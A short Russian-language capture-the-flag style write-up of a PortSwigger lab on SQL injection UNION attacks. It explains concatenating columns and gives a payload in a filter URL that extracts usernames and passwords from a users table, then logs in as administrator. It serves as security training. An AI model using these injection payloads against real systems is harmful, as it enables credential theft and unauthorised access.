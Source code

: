 # SQL injection UNION attack, retrieving multiple values in a single column

## Theory

<h3>Получение нескольких значений в одном столбце</h3>

Можно получить несколько значений вместе в этом одном столбце, объединив значения вместе, включив подходящий разделитель, чтобы мы могли различать объединенные значения.

Например, в Oracle можно отправить ввод:
```
' UNION SELECT username || '~' || password FROM users--
```

Знак "**||**" является знаком конкатенации в Oracle. Внедренный запрос объединяет значения полей имени пользователя и пароля, разделенные символом "**~**".

## Writeup

Главная страница:

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/SQL_injection_UNION_attack_retrieving_multiple_values_in_a_single_column/assets/1.png)

Выбираем пункт Lifestyle. Определяем количество стобцов и какой тип данных они принимают. Вытаскиваем имена пользователей и пароли и таблицы в удобной формате.
```
/filter?category=AccessoriesUNION+SELECT+NULL,username+||"~"||+password+FROM+users--
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/SQL_injection_UNION_attack_retrieving_multiple_values_in_a_single_column/assets/2.png)

Отправляем запрос и логинимся под адмнистратора.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/SQL_injection_UNION_attack_retrieving_multiple_values_in_a_single_column/assets/3.png)
